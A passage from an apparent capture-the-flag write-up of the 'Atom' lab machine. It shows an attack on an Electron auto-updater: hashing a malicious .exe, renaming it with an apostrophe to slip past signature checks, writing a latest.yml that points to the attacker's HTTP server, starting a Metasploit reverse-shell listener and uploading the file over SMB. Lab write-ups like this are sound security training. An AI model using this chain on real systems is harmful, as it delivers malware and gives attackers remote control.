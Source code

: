 And a command for generating a sha-512 hash:

```bash
$ shasum -a 512 maliciousupdate.exe | cut -d " " -f1 | xxd -r -p | base64
```

## Trying to Grab File from SMB

This format seems to suggest the `.exe` should already be on the server, the provided 'URL' is actually just a filename. However there's no harm trying to make it download the file from our box first. Let's rename our malicious `.exe` to contain a `'`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ mv heedv1\ Setup\ 1.0.1.exe "heedv1'Setup1.0.1.exe"
```

Then shasum it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ shasum -a 512 heedv1\'Setup1.0.1.exe | cut -d " " -f1 | xxd -r -p | base64
0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9
U87FIbYrPw==
```

Then create a `latest.yml` file:

```yaml
version: 1.0.1
files:
  - url: http://10.10.14.167/heedv1'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

Start a python server:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ sudo python3 -m http.server 80
[sudo] password for mac: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Restart [our listener](#generating-a-payload):

```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.167:9001 
```

And `put` the file:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ smbclient //10.10.10.237/Software_Updates
Enter WORKGROUP\mac's password: 
Try "help" to get a list of possible commands.
smb: \> cd client1
smb: \client1\> dir
  .                                   D        0  Wed Apr 21 22:26:45 2021
  ..                                  D        0  Wed Apr 21 22:26:45 2021

		4413951 blocks of size 4096. 1340804 blocks available
smb: \client1\> put latest.yml 
putting file latest.yml as \client1\latest.yml (0.6 kb/s) (average 0.6 kb/s)
```